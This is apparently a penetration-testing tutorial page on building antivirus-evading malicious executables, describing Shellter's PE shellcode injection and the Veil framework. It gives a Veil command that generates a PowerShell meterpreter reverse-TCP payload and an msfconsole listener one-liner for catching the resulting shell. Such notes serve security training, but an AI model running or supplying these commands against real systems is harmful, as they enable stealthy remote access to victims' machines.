 A common way to get into the victim's system is to create executables or runnable files that are with the purpose of gaining reverse shells or dumping sensitive informations. It is important to bypass antivirus and file checks. A good way to know if the crafted file is malicious or not, and respectively a good way to check if the executable files we downloaded have hidden malicious instructions is to use [VirusTotal](https://www.virustotal.com/) or other web analyzers. Typically they check for meaningful fingerprint and they compare them to the most common malicious and know fingerprint found. If one ore more fingerprint is recognized, the file will be flagged as dangerous.

## [Shellter](https://github.com/ParrotSec/shellter)

A famous tool to modify a executable files is Shellter. As the GitHub page says, Shellter is a dynamic shellcode injection tool aka dynamic PE infector. It can be used in order to inject shellcode into native Windows applications (currently 32-bit apps only). The shellcode can be something yours or something generated through a framework, such as Metasploit. Providing a PE file (the executable file format for Windows), like some 32 bit installer, Shellter will inject malicious instruction in order to bind with a reverse shell the victim with the attacker machine, once double clicked. It provides also the `stealth mode` that can try to evade antivirus detection with various tecniques.

## [Veil Framework](https://github.com/Veil-Framework/Veil)

Veil is a Framework that generates metasploit payloads that bypass common anti-virus solutions. It can generate a payloads for many scenarios. An example of Veil usage for a simple rev-shell using a batch file `(.bat)` is the following

```shell
veil -t Evasion -p powershell/meterpreter/rev_tcp.py --ip <IP> --port <PORT>
```

This is binded to the follow meterpreter listener

```shell
msfconsole -x "use exploit/multi/handler;set payload windows/meterpreter/reverse_tcp;set LHOST <LHOST>;set LPORT <LPORT>;run;"
```